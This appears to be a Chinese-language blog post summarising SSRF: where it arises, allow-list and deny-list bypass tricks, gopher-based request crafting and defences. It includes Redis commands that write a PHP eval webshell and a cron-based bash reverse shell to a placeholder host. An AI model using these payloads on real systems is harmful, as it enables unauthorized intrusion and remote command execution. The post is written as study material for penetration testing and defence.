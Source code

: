# SSRF的个人总结
## 0x01 前言
SSRF作为一个经典的漏洞，不管是在CTF比赛或者是实战渗透，都是有机会接触到的。但是相比于比赛而言，实战中遇到的SSRF的过滤和限制会多得多，不论是整站的waf或者是一些内网地址的黑名单白名单，这边就写一篇文章给自己总结回忆一下。
## 0x02 SSRF漏洞简介
### 1. 漏洞描述
SSRF全称服务器端请求伪造（Server-Side Request Forgery），这个漏洞通常出现在当web应用提供了从其他的服务器上获取数据的功能，如：使用用户指定的URL获取图片、下载文件、读取文件内容等。如果这个功能被恶意使用，就可以被攻击者利用存在缺陷的web应用作为代理，攻击远程或本地的服务器。一般情况下，SSRF的攻击主要目标是从外网无法访问的内部系统（因为它是由服务端发起的），SSRF形成的大部分原因都是由于服务端提供了从其他服务器应用获取数据的功能却没有对目标地址做过滤和限制。
### 2. 漏洞可能存在位置
大体上，我们主要通过web功能进行判断，那么我们可以列举几种在web应用中常见的功能：
* 分享功能
在早期的分享应用中，web应用会获取目标URL地址网页内容中的\<title\>标签或\<meta name="description" content="" />标签中的文本内容作为显示
* 转码服务
通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览：由于手机屏幕大小的关系，直接浏览网页内容的时候会造成许多不便，因此有些公司提供了转码功能，把网页内容通过相关手段转为适合手机屏幕浏览的样式。例如百度、腾讯、搜狗等公司都有提供在线转码服务
* 在线翻译
通过URL地址翻译对应文本的内容。提供此功能的国内公司有百度、有道等
* 图片加载与下载
通过URL地址加载或下载图片：图片加载远程图片地址此功能用到的地方很多，但大多都是比较隐秘，比如在有些公司中的加载自家图片服务器上的图片用于展示。（此处可能会有人有疑问，为什么加载图片服务器上的图片也会有问题，直接使用img标签不就好了？，没错是这样，但是开发者为了有更好的用户体验通常对图片做些微小调整例如加水印、压缩等，所以就可能造成SSRF问题）
## 0x03 SSRF漏洞利用方式
一般来说，当我们遇到一个可利用的SSRF攻击点，我们有以下几种利用方式
1. 对服务器所在内网、本地进行端口扫描，获取一些服务的banner信息（一般包括服务器的类型、版本，服务器上启动的服务信息）
2. 攻击运行在内网或本地的应用程序（如堆栈溢出）
3. 通过访问存在的默认文件对内网的web应用进行指纹识别
4. 攻击内网的web应用，主要是使用GET方法（后面会讲到POST的攻击方式）就可以进行攻击的应用，如Struct2，Sqli等
5. 利用file协议进行文件读取（后面也会讲到其他协议的利用）
## 0x04 一些SSRF的技巧
### 内网探测相关
使用SSRF来进行内网的探测是最常见的功能，在这里遇到的最常见的问题就是开发对SSRF的地址做了内网地址的白名单或者黑名单，那么我们这里就介绍几种常用的绕过方式
1. 编码
将目标ip地址进行十六进制或者其他进制的编码
127.0.0.1 => 2130706433
计算方法：127\*(256\^3)+0\*(256\^2)+0\*(256\^1)+1\*(256\^0)=2130706433
2. 缩写
比如说，127.0.0.1可以缩写成127.1
127.0.0.1也可以缩写成0
或者0.0.0.0
3. ipv6
比如localhost这个地址，我们可以用它的ipv6形式来表示，就是[::]
4. 短链接
我们可以在网上找到短链接的生成工具
5. 利用@的解析问题
比如我们想访问127.0.0.1，那么我们可以构造http://www.baidu.com@127.0.0.1，可以发现它实际访问到的是127.0.0.1，但是很多过滤的正则语法会匹配前面的www.baidu.com，就可以实现绕过
6. 特殊域名服务
比如xip.io这个网站，它会将所有xx.xx.xx.xx.xip.io的请求解析到xx.xx.xx.xx上，所以如果我们想访问127.0.0.1，只需要访问127.0.0.1.xip.io即可
7. 利用DNS解析
我们可以在自己的域名上写一个DNS的A记录，指向127.0.0.1
8. 利用一些特殊字符，比如Enclosed alphanumerics
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
我们可以构造①②⑦.①
9. 利用中文句号
127.0.0.1 => 127。0。0。1
10. 利用DNS Rebinding漏洞
DNS Rebinding漏洞是需要我们拥有一个域名，当我们把DNS解析的TTL设置为0的时候，我们DNS的解析就不会存在缓存，这意味着不同时间发出的两次DNS请求将会得到不一样的解析结果
一般的SSRF过滤会有两个步骤，第一步是有效性检测，在这一步，程序会对我们请求的地址，内容等进行检查，第二步是真正的请求发送。那么我们只需要在第一次请求时，将域名绑定到一个合法IP上，然后在第二次请求时，将域名绑到我们需要的地址，就可以绕过过滤。
不过这个在利用时也会存在一些问题，比如有些DNS服务器即使你设置了TTL为0，它仍然会有缓存，那么这种就是无解的。
11. 302跳转
可以利用一些网站提供的服务实现302跳转的攻击
### 内网应用攻击相关
在SSRF的攻击中，比较常见的就是一些未授权问题。开发人员认为服务器处于内网，默认是安全的状态，可能就会引发一些未授权的漏洞。
#### Redis未授权
redis的未授权漏洞可以说是相当经典，甚至有的服务器在外网开放的6379端口也有这个问题。通常来说redis未授权的利用方法有以下几种：
##### 1. 写webshell
这种是你判断它有web应用并且已知web应用的后端语言和路径的话，可以尝试写入webshell，过程一般如下
首先，我们设置redis的路径为你要写shell的web应用路径
```bash
set config dir /var/www/html
```
然后设置你写入的文件名
```bash
set config dbfilename 123.php
```
最后，设置写入的shell内容并保存
```bash
set shell "\n\n\n<?php eval($_POST['peco']);?>\n\n\n"
save
```
这里在前后加上换行是因为redis可能默认会附带一些信息在写入的文件中，所以为了减少影响，我们增加几个换行
##### 2. 写定时任务反弹shell
这个写入的方法和写shell大同小异，基本就还是那几步
```bash
config set dir /var/spool/cron/
config ser dbfilename root
set x "\n* * * * * bash -i >& /dev/tcp/xx.xx.xx.xx/xxxx 0>&1\n"
save
```
##### 3. 主从复制RCE
漏洞存在于4.x、5.x版本中，Redis提供了主从模式，主从模式指使用一个redis作为主机，其他的作为备份机，主机从机数据都是一样的，从机只负责读，主机只负责写。在Reids 4.x之后，通过外部拓展，可以实现在redis中实现一个新的Redis命令，构造恶意.so文件。在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意so文件，即可执行命令。
这里我们使用github上现有的工具即可
https://github.com/Ridter/redis-rce
#### GET限制的绕过
在之前面试字节跳动的时候，面试官曾经问过我这样一个问题，SSRF如果只能使用GET，那么我们怎么进行POST类型的攻击，当时我知识点还不是很清楚，那么现在就来总结一下
##### gopher协议的利用
gopher是一个很牛逼的协议，它支持发送GET或者POST的请求，比如我们使用linux来尝试发一个gopher的GET请求
首先，我们监听本机的23344端口
```
nc -lvp 23344
```
然后我们利用Curl来发送gopher的请求
```
curl gopher://127.0.0.1:23344/abcd
```
我们会发现监听的端口接收到了bcd
![](/images/1/67/image-48a121541278466a859e60733fc91140.png)
那么a呢，其实是gopher协议在使用时，必须默认在后面多加一个字符，比如我们发送
```
curl gopher://127.0.0.1:23344/_abcd
```
![](/images/1/67/image-0bca0ff675d64049a45ec4f83ef8c6a0.png)
如果想用gopher发送HTTP的GET请求，我们只需要把HTTP的请求利用URL编码和%0d%0a来换行，就可以构造出GET请求
比如我们有这样一个请求
```
GET /index.php?name=hello HTTP/1.1
Host: 127.0.0.1
```
经过URL编码和%0d0a的填充，就变成了
```
GET%20/index.php%3fname=hello%20HTTP/1.1%0d%0AHost:%20127.0.0.1%0d%0A
```
然后加上一个字符填到gopher里
```
curl gopher://127.0.0.1:80/_GET%20/index.php%3fname=hello%20HTTP/1.1%0d%0AHost:%20127.0.0.1%0d%0A
```
那么我们发送试试
![](/images/1/67/image-214fb77c75a8459181995d4926de5abd.png)
由此，我们发现gopher可以自由的构造HTTP请求，那么发送POST包也就不会有太大的问题
## 0x05 SSRF漏洞的防御
SSRF的防御应该是以下几点
1. 内网URL地址的黑名单和白名单，上述我也总结了很多的过滤绕过方法，所以白名单无疑是比黑名单更安全的，所以条件允许的情况下，尽量使用白名单进行防御
2. 协议的限制
对于很多内网应用，可能攻击者必须能发送POST包才能进行攻击，那么gopher协议的利用就是必不可少的。所以我们可以尽量限制协议的使用，危险的协议进行禁用，比如dict、file、gopher等，只允许http或https
3. 跳转的限制
有时攻击者会使用302跳转来进行内网的攻击，那么我们尽可能禁止跳转或者对每次跳转后的地址进行判断，这样就能避免很多安全问题